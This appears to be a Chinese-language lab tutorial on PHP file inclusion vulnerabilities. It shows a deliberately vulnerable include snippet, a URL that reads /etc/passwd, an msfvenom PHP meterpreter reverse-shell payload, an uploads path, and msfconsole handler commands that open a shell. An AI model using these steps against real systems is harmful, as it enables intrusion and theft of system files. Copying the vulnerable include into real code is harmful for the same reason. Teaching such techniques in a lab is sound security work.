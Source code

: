 # 文件包含漏洞原理

什么是文件包含

为了让代码有更好的可复用性，引入了文件包含函数，通过文件包含函数，包含进来文件，可以直接使用包含进来的文件的代码例如C++的include,java等的import

```
<?php
	$filename=$_GET['filename'] ;
	include($filename);
?>
```

```
php引发文件包含漏洞的四个函数:
include()
include_once()
require()
require_once() 
```

本地文件包含

远程文件包含

# 本地文件包含漏洞利用

![image-20210616111011341](D:\BaiduNetdiskDownload\安全\文件包含漏洞\文件包含漏洞.assets\image-20210616111011341.png)

```
http://daishen.ltd:1111/vulnerabilities/fi/?page=/etc/passwd
```

kali执行反弹shell

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.168.101 LPORT=4444 -f raw -o msf_php_webshell.php
```

上传文件，记住地址

```
../../hackable/uploads/msf_php_webshell.txt
```

打开kali

```
 msfconsole
 use exploit/multi/handler
 set payload php/meterpreter/reverse_tcp
 set LHOST 192.168.168.101
 set LPORT 4444
 show options
 run
 shell
```

